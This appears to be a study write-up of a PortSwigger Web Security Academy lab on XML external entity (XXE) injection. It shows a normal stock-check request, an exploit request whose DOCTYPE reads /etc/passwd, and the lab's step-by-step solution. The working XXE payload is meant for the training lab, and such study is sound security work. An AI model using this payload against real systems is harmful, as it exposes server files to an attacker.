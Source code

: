 ### **XML external entity (XXE) injection**

https://portswigger.net/web-security/xxe


#### Exploiting XXE using external entities to retrieve files

>  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

Request

```http
POST /product/stock HTTP/1.1
Host: 0a4900c103cf802fc0bb10d000f00029.web-security-academy.net
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

exploit

```http
POST /product/stock HTTP/1.1
Host: 0a4900c103cf802fc0bb10d000f00029.web-security-academy.net
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE test [ &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt; ]&gt;</code>
                    </li>
                    <li>
                        Replace the <code>productId</code> number with a reference to the external entity: <code>&amp;xxe;</code>. The response should contain "Invalid product ID:" followed by the contents of the <code>/etc/passwd</code> file.
                    </li>
                </ol>
            </div>
        </div>
